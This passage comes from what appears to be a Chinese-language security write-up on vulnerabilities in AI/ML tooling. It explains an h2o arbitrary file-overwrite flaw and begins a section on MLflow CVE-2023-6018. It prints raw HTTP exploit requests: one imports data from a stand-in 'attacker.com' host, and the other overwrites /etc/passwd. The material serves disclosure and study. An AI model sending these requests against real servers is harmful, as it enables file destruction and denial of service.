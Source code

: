 ![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicKh7RGMGr4wnMVht8XZuovSiaPBuLfky8WPbh6TvrP6fmhU1JyQ8xMKOyddw2Lu9FWnf4SqGS2QbeA/640?wx_fmt=png&from=appmsg "")  
  
  
它包含一个可通过网络访问的 API 调用，该调用将文件保存到服务器的磁盘，并包括覆盖任意文件的能力。写入磁盘的数据采用 CSV 格式，可防止此攻击用于替换敏感的配置文件（如 SSH 密钥），但可能会覆盖服务器运行所需的系统文件，从而导致拒绝服务。  
```
GET /3/ImportFiles?path=http://attacker.com/somefile HTTP/1.1
Host: 127.0.0.1:54321
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://127.0.0.1:54321/flow/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```  
  
覆盖运行 h2o.init（） 的用户有权访问的任何任意文件：  
```
POST /3/Frames/someattackerimportedframename/export?path=/etc/passwd&force=true HTTP/1.1
Host: 127.0.0.1:54321
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://127.0.0.1:54321/flow/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 0
```  
  
攻击者可以控制的数据并不完全是任意的。h2o 将 CSV/XLS/etc 文件写入磁盘，因此攻击者数据用引号括起来，如果它们导出为 CSV，则以“C1”开头。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicKh7RGMGr4wnMVht8XZuovSlp4keZicKoFiapS62g0pUJx2vrGFSgLjrRibibzP340BfbxEueV88hghDQ/640?wx_fmt=png&from=appmsg "")  
  
  
**05**  
  
AI供应链漏洞（CVE-2023-6018）  
  
  
CVE-2023-6018，  
MLflow 是一个用于简化机器学习开发的平台，包括跟踪实验、打包代码 进入可重现的运行，并共享和部署模型。MLflow 提供了一组轻量级 API，这些 API 可以 无论您身在何处，都可以与任何现有的机器学习应用程序或库（TensorFlow、PyTorch、XGBoost 等）一起使用 目前运行 ML 代码（例如在笔记本、独立应用程序或云中）。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/TvvmibSlOcicKh7RGMGr4wnMVht8XZuovSNEkN1YA98ZgVtTcqzZCaegdpuricasiaKTUx86xkribWzKgGR5rsuAibsQ/640?wx_fmt=png&from=appmsg "")  
  
Web 服务器包括用于跟踪实验、将代码打包到可重现运行以及共享和部署模型的工具。可以使用以下命令运行它  
```
mlflow ui --host 127.0.0.1:5000
```  
  